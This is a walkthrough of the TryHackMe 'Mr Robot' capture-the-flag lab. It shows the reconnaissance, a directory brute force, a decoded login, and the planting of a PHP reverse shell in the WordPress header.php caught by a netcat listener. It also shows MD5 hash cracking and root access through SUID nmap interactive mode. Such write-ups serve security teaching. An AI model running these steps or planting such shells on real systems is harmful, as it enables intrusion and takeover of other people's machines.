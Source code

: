 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Try Hack Me - Mr Robot
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps
---
#### Nmap Results

```
sudo nmap -Pn -A 10.10.242.39
```


![image](https://github.com/user-attachments/assets/de811a40-544a-4d62-bafd-f03e64b11c4d)

Port scans revealed that ports 80 and 443 were open, indicating that HTTP and HTTPS services were running on these ports, respectively.

![image](https://github.com/user-attachments/assets/add084e3-351a-4e2a-89a7-c2a17e62f267)

Upon inspecting the source code, nothing useful was found. In addition to searching for the source code, the examination of the `robots.txt` file, which is used by search engine crawlers to determine which files are allowed for parsing, was carried out.

### First Flag
---

![image](https://github.com/user-attachments/assets/654b72d0-0600-4270-b67f-8c484d9fcb98)

We now have two files: one is a text file containing the first key, and the other is a dictionary file.


### Second Flag
---

Let's download the dictionary file and use it to perform a directory brute-force attack.
```
wget 10.10.144.37/fsocity.dic
```

```
gobuster dir -u http://10.10.144.37/ -w fsocity.dic
```

![image](https://github.com/user-attachments/assets/d634c8d3-b4d0-42ca-9bfc-eb29b404486b)


While brute-forcing the directories using the dictionary file, we discovered some interesting files. One of them was `license`. Upon accessing the `license` directory, we found a Base64-encoded value in the source code.

![image](https://github.com/user-attachments/assets/5310dbf4-f758-498f-92b0-10b39767c68d)

After decoding the Base64 string, we uncovered the username and password for login.

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/67210e9f-56d4-4a67-8159-8c0f10a94318)

```
elliot:ER28-0652
```
The username and password can be used to log in via the /login path, which was identified during the directory brute forcing process.

![image](https://github.com/user-attachments/assets/af2185cb-1545-4870-8c1e-4956588a5b2c)

![image](https://github.com/user-attachments/assets/ada544a9-71ac-4bd6-a2f5-dae38f08ca3d)

Now that we are logged in, let's use the PHP reverse shell from Kali Linux. We can upload it via the Editor in the Appearance menu by editing the header.php file. This ensures that whenever the website loads, the header.php file gets executed, allowing us to establish a connection back to our machine.

```
sudo updatedb
```

```
locate php-reverse-shell
```

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![image](https://github.com/user-attachments/assets/b1622402-ae7b-4184-9ad0-591eaa7ff18d)

![image](https://github.com/user-attachments/assets/721e931d-972e-4525-8332-5a77c6f892a9)

![image](https://github.com/user-attachments/assets/51a7d4a4-042d-4386-a62d-1c0a817b0111)

![image](https://github.com/user-attachments/assets/0a5f9734-0b18-4d24-9560-eb1a67df13ca)


By listening on port `9001`, we successfully gained a connection when navigating to `/blog`, a page accessible only to the admin.

```
nc -nlvp 9001
```

![image](https://github.com/user-attachments/assets/3f7082ae-e5c5-414c-bb09-ed8107edc378)

After spawning /bin/bash using Python, I executed ls -la to list the files in the directory. It was revealed that we were logged in as the user daemon. However, the key file was only readable by the user robot. Another file, named password.raw-md5, contained an MD5 hash value.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```
![image](https://github.com/user-attachments/assets/a7d99a16-7623-4745-a46e-24975db52f00)

![image](https://github.com/user-attachments/assets/7a0392b3-9374-43e0-9881-dab7781be9ab)

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Upon cracking the MD5 hash using CrackStation, the password for the robot user was discovered.

![image](https://github.com/user-attachments/assets/13599298-b649-4ad0-8fb0-6f86ddf448a8)

```
abcdefghijklmnopqrstuvwxyz
```
After switching the user and using the discovered password, we successfully logged in as robot. 

![image](https://github.com/user-attachments/assets/6e76fe37-69e4-4099-bd29-f73b35a2186d)

Now that we have access as robot, we can read the key file, revealing the second flag.


### Privilege Escalation & Third Flag
---

```
sudo -l
```
Upon checking the user's privileges with `sudo -l`, it was identified that the user `robot` is not in the sudo group, meaning it doesn't have administrative privileges by default. This indicates that we will need to find another way to escalate privileges to gain root access.

![image](https://github.com/user-attachments/assets/3034c35a-de33-4a8f-9082-05f15f148105)


```
find / -perm -u=s -type f 2>/dev/null
```

By searching for SUID binaries, we discovered that nmap has the SUID bit set. This means nmap can be run with elevated privileges, even by a non-privileged user. We can potentially exploit this to escalate our privileges to root by using nmap's interactive mode to execute shell commands.

![image](https://github.com/user-attachments/assets/4b3d0431-1737-46d7-b863-c3eaa5c512bf)

Privilege escalation can be achieved by running the following commands:

1. Start nmap in interactive mode with:

```
nmap --interactive
```

2. Once in interactive mode, execute a shell with:

```
!sh
```

This grants root access, allowing us to further explore the system and complete the final steps of the CTF.

![image](https://github.com/user-attachments/assets/31174e70-dbd5-480b-a3ec-751bc2f6c5d7)

